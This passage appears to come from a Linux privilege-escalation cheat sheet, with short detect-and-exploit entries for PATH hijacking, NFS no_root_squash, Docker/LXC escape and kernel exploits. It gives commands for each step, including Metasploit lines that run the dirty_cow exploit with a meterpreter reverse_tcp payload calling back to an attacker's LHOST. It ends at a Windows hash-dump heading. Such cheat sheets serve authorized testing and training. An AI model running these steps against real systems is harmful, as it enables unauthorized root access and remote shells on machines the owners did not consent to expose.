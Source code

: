
```bash
strings /path/to/script | grep -E "(/usr/bin/|/bin/)"
```

- **Exploit**: Plant malicious binary earlier in PATH.
    

**NFS no_root_squash**

- **Detect**
    

```bash
showmount -e <nfs_server>
```

- **Exploit**: Mount, drop SUID binary, execute.
    

**Docker / LXC Escape**

- **Detect**
    

```bash
id | grep docker
```

- **Exploit**: Run privileged container, mount `/`.
    

**Kernel Exploits**

- **Detect**
    

```bash
uname -a
cat /etc/os-release
```

- **Exploit**
    

```text
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
# Example:
use exploit/linux/local/dirty_cow
set SESSION <id>
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

---

## 🌐 Cross‑Platform Post‑Exploitation

**Hash Dump (Windows)**

